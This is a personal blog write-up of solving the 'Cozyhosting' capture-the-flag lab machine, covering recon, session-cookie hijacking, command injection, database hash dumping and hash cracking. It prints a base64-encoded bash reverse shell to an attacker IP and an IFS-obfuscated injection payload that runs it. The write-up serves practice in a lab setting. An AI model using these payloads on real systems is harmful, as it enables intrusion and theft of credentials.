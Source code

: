 ```yaml
---
layout: post
title: "Cozyhosting"
date: 2023-10-08
categories: ["Hands-on", "TryHackMe"]
tags: ""
---
```


# Cozyhosting
> This is a machine that allows you to practise web app hacking and privilege escalation 

Used: **nmap**, **gobuster**, **postgres**, **sql**, **john**,  

## Introduction
This machine did step me out of my comfort zone and knowledge, it started off as easy but slowly exposed me to new techniques and topics in way that huumbled me and open my eyes that it will only get harder. That is the way to learn to push and push even when you dont know as long as you are pushing and learning it will get easier in time. This

Due to this machine being hard since I didnt have the knowledge, I had to use different walkrhoughs and it felt satisfying to finish it. 

## Scanning and Recon

### Nmap
I started off scanning the target using NMAP and found 8 open ports including HTTP, SSH. 

### Gobuster
I wasnt able to access the website until i added it to the /etc/hosts file. After sucessfully editting the file, I was able to access the website and find the login screen. 

After failing to try to use default credentials I went to gobuster to enumerate any hidden paths. Once thing that stood out while scanning was the session page! When accessing the session page I can see a user Kanderson with his session, and since his the only user that is authorized stealing his session will give me access to whatever there is!


## Initial access

### Imporsonating Kanderson - Cookie stealing
I had several issues when trying to access the cookie, maybe i shouldve understood cookies and researched more. At first i accessed the developer tool in my browser and changed the name to 'Kanderson' and the value was the session key. That did not work because later while reading the walkthroughs, I found out that the name is not supposed to be Kanderson but was supposed to be JESSIONID.


### SSH
at the end of the page there is a connection setting that can add my hostname and username to the hosts i the ssh authorised_key file! I understood that this can give me the shell access but i did not know how to exploit it.

With the walkthrough as a guide, i opened burpsuit and started looking at what happens when i pass in the inputs. Nothing intresting happens, but when i leave the username empty and send it out  i get an error SSH usage!

#### Payload
https://medium.com/@depradip_8731/cozyhosting-hackthebox-writeup-531082c06bb3

The walkthrough explains how to create the payload needed to gain access to the SSH. First I needed to create the base 64 of a bash reverse shell 

```bash
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

After I need to add it to the payload to be sent as the username!

```bash
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

But before sending i needed to encode it, i had few errors without doing this step. I started the listener and then sent it out.

## Escalating 
Once I gained access to the maichine i found a jar file, i extracted it and downloaded it into my machine to see. While checking each file i found the application.properties that had the username and the password for the database

### Database
I went back to the target ssh session, and ran the below bash code to access the database. Once i was connected and displayed the tables within the data i notice the users table.. thats interesting.


```bash
psql -h 127.0.0.1 -U postgres
```

Connecting to cozyhosting database
```bash
\c cozyhosting
```

Displaying the list of relations within the database
```bash
\d
```

when selecting all from the user table it provided me with both the user kanderson and admin hashed password! All i had to do is crack it.. that should be easy

```bash
select * from users;
```

### Hash cracking 
I copied the admin hash and used John to crack it with the rockyou as the wordlist. After few seconds the password was prompted into my screen

```bash
john hash.txt --wordlist=wordlist
```

### SSH
I closed the remote session for cozyhosting and attempted to log in as the admin Josh. With that i had access to both the user.txt and the root.txt for the flag needed to complete the CTF 



## Walkthrough references: 
- https://medium.com/@cybrpunk_panda/cozyhosting-writeup-hack-the-box-40d37b3075cd
- https://www.linkedin.com/pulse/cozyhosting-htb-walkthrough-jeffrey-huffman/
- https://medium.com/@depradip_8731/cozyhosting-hackthebox-writeup-531082c06bb3
https://gtfobins.github.io/gtfobins/ssh/#sudo


